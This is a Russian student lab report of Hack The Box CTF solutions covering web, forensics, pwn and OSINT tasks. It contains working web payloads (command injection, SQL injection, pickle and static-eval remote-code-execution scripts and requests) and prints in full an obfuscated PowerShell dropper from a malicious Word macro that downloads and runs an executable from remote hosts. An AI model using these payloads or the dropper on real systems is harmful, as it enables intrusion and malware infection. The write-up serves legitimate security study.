#Отчет по лабораторной работе №5 "Challenges"

#####Выполнили студенты группы М9120-09.04.01кибер

Дрожжина А.П.

Крюков Ю.М.

Личковаха С.А.

#####Проверил преподавтель

Зотов С.С.

### Slippy
- **Описание задачи:**
Вы нашли портал для службы обновления прошивки, отвечающей за развертывание и обслуживание андроидов-изгоев, охотящихся на людей за пределами города тракторов. Вопрос в том... что ты собираешься с этим делать?
- **Решение задачи:**
Переходим на страницу задачи, здесь можно загрузить архив формата tar.gz, после загрузки архив распаковывается. Видим файл config.py, это говорит о том, что сервер находится в режиме отладки. 





Смотрим структуру папки с исходным кодом:



Открыв файл until.py можно увидеть, что загруженные файлы проверяются только на формат файла. Используется tarfile библиотека для извлечения фалов.



Используем уязвимость "zip slip" - запись произвольных файлов в систему при извлечении файлов (https://github.com/snyk/zip-slip-vulnerability). Используется специально созданный архив с именем "../../test.tar.gz" для обхода каталогов.

Изменяем конфигурацию файла until.py используя уязвимость SSTI.



Скачиваем файл evilarc.py с конфигурацией для создание специального архива (https://github.com/ptoomey3/evilarc).

Создаем архив.



Загружаем архив на сайт и переходим в папку, в которой лежит флаг, далее просто скачиваем файл с флагом.



Флаг:



Уведомление о решении:



### Toxic

- **Описание задачи:**
Человечество слишком долго эксплуатировало наших союзников, лягушек-дротиков, отнимая свободу у наших прекрасных ядовитых друзей. О вредоносном вводе не может быть и речи, когда лягушки-дротики встречаются с индустриализацией. 🐸
- **Решение задачи:**
Открываем архив с исходным кодом:



Смотрим все файлы и папки на предмет нужных нам зацепок, заходим в папку *"challenge"*:



Окрываем файл *"index.php"* , здесь видно, что значение файла cookie **“PHPSESSID”** кодируется в кодировке base64 и содерживамое отображается на странице /www/index.html:


Испольузем burp для перехвата трафика, после перехвата видим файл cookie в зашифрованном виде:



Декодируем значение файла и узнаем, что подменив значение на путь к файлам, мы можем спокойно получить доступ к журналу. Для этого закодируем нужный нам путь в base64:



Подменяем значение файла на зашифрованную нами строчку с доступом к журналам и получаем путь, пройдя по которому мы получим наш флаг - **/flag_V8ICX**:



Теперь снова кодируем строку:



Подменим значение файла cookie в burp и ответом получим наш флаг:



Отправляем флаг на платформу Hack The Box и видим, что флаг верный и задача решена:



### OWASP Top 10
- **Описание задачи:**
Необходимо попробовать проэксплуатировать наиболее известные критические веб-уязвимости.
- **Решение задачи:**
1. Мы создали самый безопасный сетевой инструмент на рынке, приходите и проверьте его!
Нам дан сайт, на котором можно пинговать различные адреса.
В Burp открываем браузер и включаем перехват 
При взаимодействии результат отправляем в *"Request"* и работаем с дальнейшей информацией
*"test=ping&ip_address=localhost;ls&submit=Test"* и отправляем; в ответе в формате *"Raw"* в одном из значений видим *"index.php"*
Меняем на *"test=ping&ip_address=localhost;cat index.php&submit=Test"*
Далее *"test=ping&ip_address=localhost;ls - la /&submit=Test"*
Получаем в ответе в одном из значений полей flag
*"test=ping&ip_address=localhost;cat /flag&submit=Test"*
Получаем флаг HTB{I_fin4lly_l00k3d_thr0ugh_th3_rc3}
2. Можете ли войти в систему как администратор на моей сверхзащищённой странице входа?
При переходе за страницу видим два поля, логин и пароль
При попытке ввода значений сайт нам даёт подсказку про SQL-инъекцию:



Вводим в поле логин *"admin' OR 1=1;--"*



На экране получаем флаг HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}
3. Кому нужна целостность сеанса в наши дни?
Переходим на сайт и перед нами форма авторизации.
При попытке создания пользователя *"admin"* видим сообщение о том что такой пользователь уже есть
Создаём своего пользователя 123 с таким же паролем
Входим и видим надпись *"You are not an admin"*
Открываем консоль разработчика и во вкладке Storage видим значение



Переходим в Burp и на вкладке Request, Selection, меняем значение *"username"*
Получаем флаг HTB{s3ss10n_1nt3grity_1s_0v3r4tt3d_4nyw4ys}
4. Можете ли вы найти способ войти в систему как администратор веб-сайта и бесплатно использовать nginxatsu?
Выполняем сканирование с помощью FFUF 



Регистрируемся и входим на свою запись
Переходим на storage и видим страницы и возможность скачать архив



Скачиваем архив
Распаковываем и открываем бд



Перед нами таблицы 



Видим нужного нам админа и пароль к нему



Через расшифровку MD5 получаем пароль и входим по учёткой админа
На экране флаг HTB{ng1ngx_r34lly_b3_sp1ll1ng_my_w3ll_h1dd3n_s3cr3ts??}
5. Наши WAFfles и Ice Scream не из этого мира, зайдите в наш онлайн-дом WAFfles и ознакомьтесь с API нашей сверхбезопасной системы заказов! 
Предлагается перейти на сайт и скачать файл.
Качаем архив и смотрим содержимое
Название XXE подсказывает о возможости проведения XXE атаки
Ищем возможный вариант запроса и подставляем значения согласно полям и значениям нашего сайта
Получаем флаг HTB{wh0_l3t_th3_XX3_0ut??w00f..w00f..w00f..WAFfles!}
6. Я так устал от этих чертовых HR-решений, исходящих от этих чертовых специалистов по персоналу, мне не нужно, чтобы кто-то следил за моими мыслями, или я…? 
Скачиваем файлы таски
HTB{l3ss_ch0r3s_m0r3_h4ck1ng...right?!!1}
7. Из-за большой рабочей нагрузки в связи с предстоящим мероприятием Baby BoneChewerCon веб-сайт находится на техническом обслуживании, и на нем возникают ошибки, но отладчик 
все еще включен в рабочей среде!! Я думаю, дьявол соблазняет нас пойти и проверить секретный ключ.



Просто смотрим что на странице, там же лежит флаг HTB{wh3n_th3_d3bugg3r_turns_4g41nst_th3_d3bugg33}
8. Добро пожаловать на Full Stack Conf, узнайте о будущем JavaScript вместе с отраслевыми профессионалами и откройте для себя новые методы продвижения по карьерной лестнице в качестве веб-разработчика. 
Но будьте очень осторожны с формой обновления, мы ничего не дезинфицируем, и администратор входит в систему и регулярно проверяет электронную почту, не пытайтесь делать что-то смешное !! 
По подсказке со страницы вводим просто нужное значение и получаем уведомление-флаг HTB{p0p..p0p..p0p...alert(1337)}
9. Смотри, Морти, смотри! Я превратил себя в веб-сайт Морти, я веб-сайт Рик, детка!! 
Но не играй с некоторыми из этих сывороток против маринада, которые я храню в безопасном месте, 
если я вернусь к человеку, мне придется пойти на семейную терапию, а нам не нужен этот Морти. 
На сайте дана подсказка о том что таск связан с десереализация
В консоли разработчика мы можем увидеть cookie, это base 64


получаем объект pickle


получили ошибку
Выполняем скрипт
import pickle
from base64 import b64decode

class anti_pickle_serum:
    def __init__(self):
        pass

plan_b = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21ha
W5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDU
KUnA2CnMu"

serum = pickle.loads(b64decode(plan_b))
print(serum)

И получаем результат

python3 depickle.py
{'serum': <__main__.anti_pickle_serum object at 0x7f250bb68970>}

Далее, выполняем эксплуатацию через reduce:

import pickle
from base64 import b64encode
import os

class anti_pickle_serum:
    def __reduce__(self):
        cmd = ('whoami',)
        return os.system, cmd

if __name__ == '__main__':
    pickled = pickle.dumps({"serum":anti_pickle_serum()})
    print((b64encode(pickled)))

есть скрытый параметр, передаваемый при вызове pickle.dumps() 

import subprocess
import pickle
from base64 import b64encode

class anti_pickle_serum(object):
    def __reduce__(self):
        return YourMethod, ("Your Commands")

if __name__ == '__main__':
    pickleObject = pickle.dumps({"serum": anti_pickle_serum()}, protocol=0)
    print(pickleObject)
    print(b64encode(pickleObject))

первый вызывает whoami и его код эксплуатации KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUyd3aG9hbWknCnA0CmF0cDUKUnA2CnMu

затем на втором шаге в использовании ls -la мы можем использовать код с the, и у нас есть код эксплуатации как .subprocess.check_output()[ "ls","-la"]KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYVMnLWxhJwpwNQphdHA2ClJwNwpzLg==

Далее можем использовать тот же метод с аргументами и получить флаг с [ "cat", "flag_wIp1b" ]KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu

Далее получаем на экране флаг HTB{g00d_j0b_m0rty... n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}

10. Мы исправили математику в работе нашего учителя физики, и теперь он подводит нас назло за то, что мы выставили его дураком на исследовательском симпозиуме университета, теперь мы не можем закончить школу, если не сможем что-то с этим сделать...

Мы видим, что создается маршрут, доступный через POST-запросы, при отправке этого запроса становится понятно, 
что в разделе запроса должна быть объявлена переменная student. Если имя не объявлено, API возвращает информацию что используется либо встроенная формула, либо та, которая указана в req.body. Отсюда вызываются две подпрограммы, 
одна возвращает true или вторая возвращает false, мы получаем сообщение .StudentHelperNode.js/api/calculatereq.bodySpecify Student Name [0.20 * assignment + 0.25 * exam + 0.25 * paper] IsDumb()hasPassed()NOOOOOOPE
Смотрим файл static-evalpackage.json
Выбираем какие есть способы эксплуатации
Мы можем видеть в Node Package, что static-eval — это «», и это может быть вариантом эксплуатации
Просматриваем способы эксплоитов и один из вариантов эксплоитов, это где можно получить доступ к конструкторам функций
При создании нашего запроса JSON, если API даёт доступ на все вызовы в качестве ответа, мы можем вызвать флаг таким образом:
В ретрансляторе запускаем  

POST /api/calculate HTTP/1.1
Host: 165.227.225.205:32398
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: <http://165.227.225.205:32398/>
Content-Type: application/json
Origin: <http://165.227.225.205:32398>
Content-Length: 196
Connection: close

{"name":"Nxt",
    "formula":"(function (y){return ''20222022})('constructor')('throw new SyntaxError(process.mainModule.require(\\"child_process\\").execSync(\\"cat flag*\\").toString())')()"
}


При отправке получаем следующее:

<!DOCTYPE html>
<html lang="en">
 <head>
 <meta charset="utf-8" />
 <title>Error</title>
 </head>
 <body>
 <pre>SyntaxError: HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v&#39;eval!!}
 <br>..... CallStack Here</pre>
 </body>
</html>

Символ амперсант#39; это ', меняем значение и вводим флаг
##Forensic
### USB Ripper
- **Описание задачи:**
Есть системный администратор, который целый год сливал все события USB на свой Linux-хост... Недавно каким-то плохим парням удалось украсть некоторые данные с его машины, когда они проникли в офис. 
Можете ли вы помочь ему поставить хвост на злоумышленников? Примечание: как только вы его найдете, «взломайте» его. 
- **Решение:**
Ищем что-то для работы с флешками, скрипты или программы
Идём на гитхаб и находим программу usbrip(от создателя самой таски), устанавливаем



Скачиваем файл с данными для таски, распаковываем и заходим в файл



Запускаем юсбрип и вводим значения



Выбираем terminate  получаем таблицу



Из полученных хэшей берём из поля serialnumber и в MD5 расшифровываем получаем флаг
HTB{mychemicalromance}
### Emo
- **Описание задачи:**
Вымогатели WearRansom только что вышли на свободу в нашей компании. SOC отследил первоначальный доступ к фишинг-атаке, документу Word с макросами. Взгляните на документ и посмотрите, можете ли вы найти что-нибудь еще о вредоносном ПО и, возможно, о флаге.
- **Решение задачи:**

Открываем документ через word, открывается документ и буквально на секунду выскакивает уведомление о включенном *PowerShell*:


Зажимая кнокпки *"alt+F11"* смотрим наш макрос:




Делаем изменения в Gav481k8nh28, добаляем строку, которая будет нам выводить значение переменной:



После чего перезапсукаем макрос и получаем три выведенных окна, в которых видно явное использование вродоносного скрипта в powershell:







Используем код:
```
 SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;   set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;  $Nbf5tg3=('B9'+'yp'+('90'+'s'));$Vxnlre0=$Cludkjx + [char](64) + $R6r1tuy;$Ky3q0e8=(('Rq'+'dx')+'wo'+'5');  (  Dir  vaRiAble:0Zx).valuE::"CreAT`E`dIREc`T`OrY"($HOME + ((('nDp'+'Jrb')+('e'+'vk4n')+'D'+'p'+('C'+'cwr_2h')+'nD'+'p') -RePlAcE ('n'+'Dp'),[cHaR]92));$FN5ggmsH = (182,187,229,146,231,177,151,149,166);$Pyozgeo=(('J5f'+'y1')+'c'+'c'); (  vaRiABLE TxYSEo  ).ValuE::"SecUrI`TYp`R`OtOc`ol" = (('Tl'+'s1')+'2');$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);$Huajgb0=(('Jn'+'o')+'5g'+'a1');$Bb28umo = (('Ale'+'7g')+'_8');$Hsce_js=('Kv'+('nb'+'ov_'));$Spk51ue=(('C'+'7xo')+'9g'+'l');$Scusbkj=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.e'+'x')+'e');$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);$hbmskV2T=(('C'+'7xo')+'9g'+'l');$hbmskV2T=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.c'+'o')+'nf');$Q1_y05_=('W'+('4'+'qvy')+'z8');$Odb3hf3=&('n'+'e'+'w-object') Net.WEBclIENt;$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);$Anbyt1y=('h'+('ttp:'+']['+'(s)]')+(('w]'+'[('))+(('s)'+']w'))+('da'+'-')+'i'+'n'+'du'+('s'+'trial.'+'h'+'t')+'b]'+('[(s)]'+'w'+'js')+((']'+'[('))+(('s'+')]w9IdL'+'P]['+'(s'+')]w'+'@h'))+('t'+'tp:]')+('[(s'+')]')+'w'+(']'+'[(s)]')+('wdap'+'ro'+'fesiona'+'l.h')+'tb'+('][(s'+')'+']')+'w'+('d'+'ata')+('4][(s'+')]wh')+('WgW'+'jT')+('V]'+'[')+('(s)]w@http'+'s:][(s'+')]'+'w'+']')+'['+('(s)'+']wdag'+'ra')+'ni'+'t'+('eg'+'ia')+('re.h'+'t')+'b]'+('['+'(s)')+(']ww'+'p-a'+'dm'+'in][(s)'+']wt')+('V]['+'(s'+')')+(']w@'+'h')+'tt'+'p'+(':'+'][')+('(s)]w]['+'(s'+')]www'+'w'+'.out'+'s'+'p')+('ok'+'e')+'nv'+'i'+('s'+'ions.')+('htb'+']')+'['+('(s)]w'+'wp'+'-in')+('clu'+'d')+('es][(s)'+']waW'+'o'+'M')+(']'+'[('+'s)]w')+('@'+'http:]')+('[(s)'+']w][('+'s)')+(']wmo'+'bs')+('o'+'uk.h')+(('t'+'b][('))+(('s)'+']wwp-'))+'in'+'c'+'l'+('ude'+'s]'+'[')+('(s)]'+'w')+('UY'+'30R]')+('[(s'+')]w'+'@'+'h'+'ttp:][')+('('+'s)]w')+(']['+'(s)')+(']'+'wb')+'i'+('g'+'laugh'+'s')+(('.h'+'t'+'b][(s'))+((')]'))+('ws'+'mallpot'+'ato')+'es'+((']'+'[(s'))+((')]wY]'+'[(s'+')]w'+'@h'+'ttps:][(s)'))+']w'+('][('+'s)]wn'+'g')+('ll'+'o')+('gist'+'i')+('cs.'+'h')+'t'+('b]'+'['+'('+'s)]w')+'ad'+('mi'+'n')+'er'+']'+('[(s'+')]w'+'W3m')+'k'+(('B'+'][(s'))+((')'+']w')))."rep`LAcE"((']'+'['+('(s)]'+'w')),([array]('/'),('xw'+'e'))[0])."sP`lIT"($Ivg3zcu + $Vxnlre0 + $Jzaewdy);$Gcoyvlv=(('Kf'+'_')+('9'+'et1'));foreach ($A8i3ke1 in $Anbyt1y){try{$Zhcnaux=(('Ek'+'k')+('j'+'47t'));If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -le 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }; $FN5ggmsH += (228); $b0Rje =  [type]("{1}{0}" -F'VerT','Con');   $B0RjE::"tO`BaS`E64S`TRI`Ng"(${fn5`ggm`sh}) | .("{2}{1}{0}" -f 'ile','ut-f','o') ${hB`mSK`V2T}; ([wmiclass](('wi'+'n')+('32_'+'Proc'+'e')+'s'+'s'))."cR`eaTE"($Scusbkj);$Glwki6a=('I'+'m'+('td'+'xv6'));break;$Pfpblh1=('Vs'+('lal'+'c')+'u')}}catch{}}$F47ief2=(('Bn'+'zid')+'rt')
```
 Здесь просиходит замена всех букв на строчные, поскольку PowerShell распознает их одинаково. 
 Основная часть, которую следует рассматривать как вредоносный скрипт, действующий как создание каталога и загрузка файлов из удаленного местоположения, - это часть кода foreach.
 Переменная anbyt1y содержит URL-адрес, загруженный из удаленного местоположения, который определяется как домен, предоставляемый htb. Читаем домен в переменной $anbyt1y один за другим, и после загрузки файла с сервера домена вступает оператор if, который делает оператор if истинным, когда размер загруженного файла составляет 45199 байт. 

Результат использования кода:





Видим, что файл не загружен с веб-сервера и путь к нему отсутствует, но папка Ccwr_2h создана. Идем по этому пути проверяем существует ли такой файл.Находим его, открываем блокнотом и находим закодированную строку:



Декодируем и получаем флаг:



Отправляем флаг на платформу Hack The Box и видим, что флаг верный и задача решена:



### MarketDump
- **Описание задачи:**
Нам сообщили, что хакеру удалось проникнуть в нашу внутреннюю сеть после перехода через веб-платформу, 
которая работает в общедоступном Интернете. Ему удалось обойти нашу платформу регистрации небольших товарных запасов, а затем он получил файл базы данных наших клиентов. 
Мы считаем, что целью был только один из наших клиентов. Можете ли вы выяснить, кто был покупателем?
- **Решение:**
Открываем дамп, сортируем по протоколу данные, видим что на http передавалось что-то большое:



Скачиваем через экспорт объектов файлик, с расширением .sql, а в описании сказано про базу данных клиентов, значит стоит проверить, где пакет с тем же номером (2772)
Открываем файлик, по всей видимости это просто номера карт, смотрим, из списка выбивается явно одно значение



Непонятно на что похоже, идём в Cyberchef
Выбираем и применяем Magic и получаем из странной строки флаг HTB{DonTRuNAsRoOt!MESsEdUpMarket}



Строка оказалась зашифрованной в бейс64 и бейс58
##PWN
### Racecar
- **Описание задачи:**
Знаете ли вы, что гоночный автомобиль, написанный задом наперед, - это гоночный автомобиль? 
Что ж, теперь, когда вы знаете все о гонках, выиграйте эту гонку и получите флаг!
- **Решение:**
Запускаем приложение и проверяем сначала на обычное переполнение, вводим кучу ААААААА
Никаких ошибок не возникает
Смотрим в Иде, программа на С, есть функции чтения и выдачи данных для пользователя. 
Можно попробовать использовать ошибку чтения, когда при выполнении проверки вводимых форматов строка таким образом
парсится и выводит но наоборот нам данные:



Проверяем что нам выдалось, в данном случае флаг был записан в стеке с 26 значения и дальше от него:



Переворачиваем строку и получаем флаг.

### You know 0xDiablos
- **Описание задачи:**
Я упустил свой флаг.
- **Решение задачи:**

Посмотрим свойства файла:



Запустим файл. Можем записать любую строку, в ответ вернется та же самая строка.



Строки файла:



С помощью утилиты Ghidra проведем анализ файла. Имеется 3 основные функции. В функции vuln() происходит выделение массива, в который записываются введенные данные, а после возвращаются с помощью функции gets:



main() - вызов функции vuln и вывод текста:



flag() - выделение массива, открытие и считывание файла "flag.txt", далее флаг записывается в local_50 и при выполнении условия выводится флаг.


С помощью checksec можно увидеть, что файл уязвим.


Откроем и запустим файл с помощью GDB-отладчика до первой точки останова.


Т.к. мы знаем, что входные данные хранятся в буфере размером 180, подготовим файл из 200 символов для дальнейшего определения смещения EIP.


Видно, что EIP содержит адрес 0x41417741. Это позволяет автоматически определить смещение регистров $pattern_offset 0x41417741: 188 
С помощью команды disas можно определить адрес функции флаг (call 0x8049120)


Далее подготавливаем текстовый файл с полезной нагрузкой и запускаем это все на сервере, после чего получаем сам флаг.


Уведомление о решение с HTB:


##OSINT
### Infiltration
- **Описание задачи:**
  Можете ли вы найти что-нибудь, что поможет вам проникнуть в компанию "Evil Corp LLC". Изучите сайты социальных сетей, чтобы узнать, можете ли вы найти какую-либо полезную информацию.
- **Решение задачи:**
  Первым делом гуглим название компании:
  
  
  
  В первом же результате видим какой-то закодированный флаг:
  
  
  
  Пробуем расшифровать значение и понимаем, что это обманка:
  
  
  
  Идем дальше,второй результат поиска ссылка на аккаунт в инстаграм. Переходим по этой ссылки и видим аккаунт девушки, которая работает в данной компании:
  
  
  
  Просматриваем ее посты в поисках чего-то интересного, и находим флаг на бейджике и в комментариях к записи:
  
  
  
  Отправляем флаг на платформу Hack The Box и видим, что флаг верный и задача решена:
  
  

### Money Flowz
-  **Описание задачи:**
Фрэнк Виталик-мошенник, вы можете понять, куда текут деньги?
- **Решение задачи:**
Из условия задачи для поиска мы можем использовать только имя мошенника, вбиваем его имя в поисковик google и смотрим результаты:


Переходим по первой ссылке и начинаем изучать страницу, здесь мы видим две интересных записи:
   1. Указан какой-то адрес 

   

   2. Сама запись нас ни к чему не приводит, но мы видим, что к ней есть два комменатрия:

   

Просматриваем комментарий и видим упоминание какого *"ropsten net"*:


Гуглим по названию и находим следующие результаты:


Переходим по ссылке там видим историю операций, вспоминаем, что раньше находили адрес. Делаем поиск именно по этому адресу:


Просмотрев операции, ничего не находим и видим фильтр. С помощью данного фильтра выбираем *"View Outgoing Txns"*, теперь нам доступно всего две записи:


Просматриваем записи и находим в поле *"Input Data:"* какое-то зашифрованное значение, хотя раньше данное поле было пустое:


Видим, что есть кнопка *"View Input As"*, нажимаем на нее и нам открывается выпадающее меню:


Выбираем *"UTF-8"* и нам показывается наш флаг:


Отправляем флаг на платформу Hack The Box и видим, что флаг верный и задача решена:	1


